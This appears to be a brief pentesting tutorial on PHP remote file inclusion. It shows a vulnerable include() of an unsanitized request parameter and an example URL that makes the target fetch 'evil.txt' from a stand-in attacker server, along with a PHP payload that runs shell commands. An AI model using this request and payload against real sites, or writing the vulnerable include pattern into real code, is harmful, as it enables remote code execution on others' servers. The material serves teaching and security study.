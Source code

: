 # Remote file inclusion

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine. 

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the **php.ini** configuration file.

This is how they work.

So you have an unsanitized parameter, like this

```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```

Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.

```
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```

And evil.txt will look like something like this:

```
<?php echo shell_exec("whoami");?>
```

So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. ANd we have a RCE.